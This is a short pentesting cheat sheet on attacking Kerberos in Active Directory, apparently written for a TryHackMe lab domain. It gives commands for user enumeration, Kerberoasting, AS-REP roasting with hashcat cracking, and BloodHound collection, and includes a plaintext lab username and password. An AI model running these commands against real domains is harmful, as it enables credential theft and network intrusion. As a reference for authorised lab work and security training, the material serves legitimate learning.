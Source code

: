 # 88 - Kerberos

### User enumeration:

Kerberos Pre-Authentication User Enumeration:

{% code overflow="wrap" %}
```sh
kerbrute userenum -d THM.CORP --dc 10.10.96.178 usernames.txt
```
{% endcode %}

User Enumeration via SID Lookup:

{% code overflow="wrap" %}
```sh
impacket-lookupsid thm.corp/guest@10.10.96.178 -no-pass >> LookupSID_Output.txt
```
{% endcode %}

Extracting Usernames from LookupSID Output:

{% code overflow="wrap" %}
```sh
grep '\\' LookupSID_Output.txt | awk -F '\\' '{print $2}' | awk '{print $1}' | sort -u > CorpUsers.txt
```
{% endcode %}

### Attacks

Kerberoasting: Requesting Service Tickets for Offline Password Cracking:

{% code overflow="wrap" %}
```shell
impacket-GetUserSPNs thm.corp/ -usersfile CorpUsers.txt -dc-ip 10.10.96.178 -request -outputfile kerberoast_tickets.kerb
```
{% endcode %}

*

AS-REP Roasting: Extracting Hashes from Accounts Without Pre-Authentication:

{% code overflow="wrap" %}
```sh
impacket-GetNPUsers thm.corp/ -usersfile CorpUsers.txt -dc-ip 10.10.96.178 -outputfile asrep_hashes.txt
```
{% endcode %}

* `hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt`&#x20;



### Bloodhound:

Authenticated BloodHound Data Collection:

{% code overflow="wrap" %}
```sh
sudo bloodhound-python -d thm.corp -u TABATHA_BRITT -p marlboro\(1985\) -ns 10.10.158.22 -c all
```
{% endcode %}

